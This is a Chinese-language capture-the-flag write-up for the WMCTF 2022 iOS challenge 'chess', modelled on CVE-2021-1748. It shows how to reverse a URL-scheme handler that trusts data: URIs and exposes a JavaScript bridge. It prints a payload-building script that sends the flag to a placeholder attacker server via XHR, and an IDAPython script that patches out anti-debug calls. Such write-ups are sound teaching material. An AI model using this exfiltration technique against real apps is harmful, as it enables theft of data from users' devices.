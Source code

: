 ```yaml
---
title: WMCTF 2022 挑战赛 chess writeup
publish_date: 2022-02-22
---
```


### 写在前面

有幸受邀给 WMCTF 2022 出一道客户端的赛题。而传统的客户端 CTF 一般无论是以游戏的形式展示或者单纯一个输入框，都是客户端内置了一个算法，需要选手去逆向这个算法来拿到 flag。受到 Real World CTF 2019 中 [DezhouInstrumenz](https://github.com/ChiChou/DezhouInstrumenz) 的启发，决定出一个贴近真实环境的，真正能给选手挖洞提供思路参考的题目。于是就有了这道参考**著名白帽黑客 CodeColorist 的 CVE-2021-1748 来出的一道题目**（由于该 CVE 影响范围较广且具有比较严重的危害，所以题目进行了一定的魔改）。

### 解题过程

首先拿到 IPA 解压缩之后发现在 Bundle 中存在一个名为 flag 文件，文件内容为 {placeholder}。且根据赛题得知有一台真实 iPhone 在后端运行，则可知存在真正的 flag 的 App 正运行在该 iPhone 当中。

查看 Bundle 中的 Info.plist 文件可发现应用注册一个 URL Scheme，为 `chess://`：

![6303269930df1](../wmctf_2022_chess_writeup/6303269930df1.png)

将二进制扔到 IDA 进行分析，查看应用 URL Scheme 的关键回调逻辑：

![image.png](../wmctf_2022_chess_writeup/630339a0499fe.png)

继续跟进 `_showExternalURL`：

![image.png](../wmctf_2022_chess_writeup/630339df7bb9e.png)

代码中存在两处内联汇编的反调试逻辑，选手可以通过静态匹配特征来 patch：

![image.png](../wmctf_2022_chess_writeup/63033a628fe0e.png)

在 `showExternalURL` 函数中遇到第一个判断：

![image.png](../wmctf_2022_chess_writeup/63033b492377b.png)

通过动态调试跟进函数看下判断的逻辑：

![image.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_16-20-07.png)

该部分代码大意为：如果 URL 的参数中存在 urlType=exit 或者 search 或者 web 时则返回 true。

当判断返回 true 时则跳进第一个分支 `_legacyResolveExternalURL` 函数中：

![image.png](../wmctf_2022_chess_writeup/63033d22e1f7d.png)

继续跟进 `resolveURL` 函数中：

![Xnip20220822_162741.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_16-27-41.png)

在 `_showAccountViewControllerWithURL` 函数中会先取传入 URL 中的 url 参数字段，并弹出新的控制器进行加载：

![image.png](../wmctf_2022_chess_writeup/63033ef006333.png)

我们可以看到新弹出的控制器是用`UIHostingController` 包装的 `ContentWebView`。

在 SwiftUI 中如何实现一个 WebView 参考链接：https://www.appcoda.com/swiftui-wkwebview/

寻找 `makeUIView` 函数来看下应用是如何处理构造 URLRequest 的，关键代码：

![image.png](../wmctf_2022_chess_writeup/630340ae598cc.png)

先调用了 `_URLByRemovingBlacklistedParametersWithURL` 函数，在该函数中进行了一些特殊符号的过滤，并且在 URL 的结尾添加了一个 `?` 符号。

接下来调用 `urlIsTrusted` 进行了一次判断：

![image.png](../wmctf_2022_chess_writeup/63034fae242c0.png)

在该函数中存在一段逻辑，当传入的 URL 的 Scheme 为 data 时，则返回  true。也就是说当传入 URL 是个 Data URi 时则认为该 URL 是个可信的 URL。

当传入的 URL 是一个可信 URL 时，则调用 `injectScriptInterface` ，并且加载 URL：

![image.png](../wmctf_2022_chess_writeup/630350565b093.png)

让我们跟进 `injectScriptInterface` 看下关键逻辑：

![Xnip20220822_175321.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_17-53-21.png)

可以看到将 `WMScriptInterface` 类的方法导出到 js 上下文中，这些 API 被放在全局作用域的 `wmctf` 命名空间里。

然后我们在 IDA 中搜索，惊喜的发现有个 `-[chess.WMScriptInterface _getFlag]` 的函数：

![image.png](../wmctf_2022_chess_writeup/630352619b9c1.png)

此时我们得知可以一个构造 payload 然后通过 URL Scheme 调起 chess 客户端，并执行 `wmctf.$_getFlag()` 来获取到 flag。

构造生成 Payload 的 js 代码：

```javascript
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://XXX/test?flag=' + wmctf.$_getFlag(), false); xhr.send();
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('chess://x?urlType=web');

url.searchParams.set('url', data);
url.toString()
```

只要将该 URL Scheme 提交（我写了个 webserver，用来接收 payload 并在设备执行），则会在设备执行，并且将 flag 发送到攻击者的服务器。

IDAPython Ptach `svc 0x80`:

``` python
import idc
def text_seg_addr_start():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegStart(seg))
            print("text segment address start: " + addr)
            return int(addr[0:-1], 16)
def text_seg_addr_end():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegEnd(seg))
            print("text segment address end: " + addr)
            return int(addr[0:-1], 16)       
start = text_seg_addr_start()
end = text_seg_addr_end()
while start < end:
    m = idc.print_insn_mnem(start)
    n = idc.print_operand(start, 0)
    if m == 'SVC' and n == '0x80':
        # print(idc.GetDisasm(start))
        if idc.print_operand(idc.prev_head(start), 1) == '#0x1A':
            idc.PatchDword(start, 0xD503201F)
            print("patch {} success!".format(hex(start)))
    start += 4
```

### 彩蛋：

当用 js 调用 wmctf 命名空间中一个不存在的方法时，则会返回一段 base64 编码的图片字符串！

### 参考资料

https://codecolor.ist/2021/08/04/mistuned-part-i/
https://developer.apple.com/documentation/objectivec/nsobject/webscripting?language=objc
https://developer.apple.com/documentation/objectivec/nsobject/1528539-webscriptname/
https://developer.apple.com/library/archive/documentation/AppleApplications/Conceptual/SafariJSProgTopics/ObjCFromJavaScript.html